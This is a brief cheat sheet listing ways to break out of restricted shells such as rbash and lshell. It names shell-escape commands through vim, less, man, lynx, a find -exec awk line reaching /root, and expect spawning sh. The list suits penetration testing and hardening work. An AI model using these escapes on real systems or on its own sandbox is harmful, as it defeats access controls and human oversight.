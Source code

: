 **Common Restricted Shells**
- rbash
- rzsh
- lshell (Limited Shell)
- rssh (Restricted Secure Shell)

## How To

**Console Editors** (ed / ne / nano / pico / vim)
- `:set shell=/bin/sh; shell`
- `:!/bin/sh`
- `!'/bin/sh'`

**Pager Commands** (more / less)
- open a file long enough to invoke pager
- `!'sh'`
- `v` (vim editor)

**man and pinfo**
- invoke man page
- use more / less pager (start search "/" )

**Console Browsers** (links / lynx / elinks)
- open website (e.g. google.com)
- hit ESC, this will lead to configuration menu
- hit FILE > OS Shell

**find command**
- `find . -name [file] -exec awk 'BEGIN {system("cd /root; ls")}'`

**expect**
- `expect; spawn sh`
